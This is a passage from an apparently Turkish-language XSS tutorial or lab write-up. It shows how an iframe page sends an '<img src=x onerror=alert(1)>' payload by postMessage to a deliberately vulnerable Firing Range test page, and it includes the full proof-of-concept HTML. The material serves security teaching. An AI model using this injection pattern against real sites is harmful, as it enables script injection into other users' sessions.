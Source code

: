 Artık bu sayede postMessage ile istediğimiz mesajı iletebildiğimizi teyit edebiliriz.

![Untitled](0x09-770e9a14727f44d080ea40a453968369/Untitled-5.png)

Özetleyecek olursag ‘***target.src***’ kısmında belirttiğimiz bir hedef site bulduk. Bu hedef sitedeki JavaScript kodları kendisini iframe ile açan bir sayfadan mesaj almakta ve aldığı bu mesajdaki veriyi parse ettikten sonra bir div element’i oluşturmakta daha sonra da div’in içeriğine sizden aldığı data’yı yazmaktadır. Biz de burada kendi sitemizde bu hedef siteyi iframe ile yükletip istediğimiz mesajı gönderiyoruz. Burada artık XSS’in meydana geldiğini bu kod yapısı sayesinde tespit edebiliriz.

```
<html>
    <iframe id="target" src="">

    </iframe>

    <script>
        var target = document.getElementById('target');

        target.addEventListener('load', function(){
            //buradan iframe içerisine bir mesaj göndereceğiz
            var payload = {'html':'<img src=x onerror=alert(1)>'};
            target.contentWindow.postMessage(JSON.stringify(payload),'*');
            //postMessage frame'ler arası iletişimi sağlamaktaydı.
        });
        target.src=
        "https://public-firing-range.appspot.com/dom/toxicdom/postMessage/innerHtml"
    </script>
</html>
```

Bu sayede artık XSS payload’ımıza göre sayfada yüklenmeye çalışılan resim hata vereceği için alert(1) pop-up uyarısı başarıyla gösterilmiş durumda.

![Untitled](0x09-770e9a14727f44d080ea40a453968369/Untitled-6.png)
